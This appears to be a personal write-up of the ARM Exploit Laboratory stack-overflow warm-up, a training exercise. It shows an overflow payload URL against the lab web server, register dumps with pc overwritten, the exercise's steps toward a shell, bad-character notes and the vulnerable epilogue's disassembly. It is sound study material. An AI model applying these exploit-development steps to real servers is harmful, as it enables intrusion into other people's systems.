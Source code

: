 Testing payload:

    http://dvar/basic.html?aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaeeeebbbb

and I have successfully written `pc` and `r11` registers:

    ...
    $r11  : 0x65656565 ("eeee"?)
    $r12  : 0x00000024
    $sp   : 0xbeffbba8  →  0x00000000
    $lr   : 0x62626262 ("bbbb"?)
    $pc   : 0x62626262 ("bbbb"?)
    ...

From the task's hints:

    The ARM Exploit Laboratory
    ARM STACK OVERFLOW WARM-UP EXERCISE

    This is a warm-up exercise for exploiting stack overflows. The underlying web server is vulnerable to a stack overflow. Your task is to identify the input that triggers this vulnerability and write a working exploit for it.

    Follow the methodology, and get a shell!

        * Identify the vulnerable HTTP request.
        * Analyze the crash.
        * Is it a stack overflow? Check registers, stack memory.
        * Determine the offset to the Program Counter (PC).
        * Determine the position of the stack pointer relative to the beginning of the payload.
        * Overwrite PC precisely.
        * Plan the payload. Where shall you place the shellcode?
        * Search for a suitable Jump-through-Register instruction in the binary or shared libraries.
        * Inject and return to "test shellcode" (BKPT).
        * Prepare a final working exploit. 


Getting hex for software breakpoint:

    rasm2 -a arm.as -b 16 -C "BKPT"


By exploring the vulnerability it appears that:

* I can include non-printable characters cause the string is `urldecode`d before passing it to `vsprintf`
* `0x00` characters cut the string and must be avoided 


The moment of code execution is:

    ; Here the stack mess up
    |      `--> 0x00013538      04d04be2       sub sp, fp, 4
    |           0x0001353c      0048bde8       pop {fp, lr}
    |           0x00013540      10d08de2       add sp, sp, 0x10
    \           0x00013544      1eff2fe1       bx lr
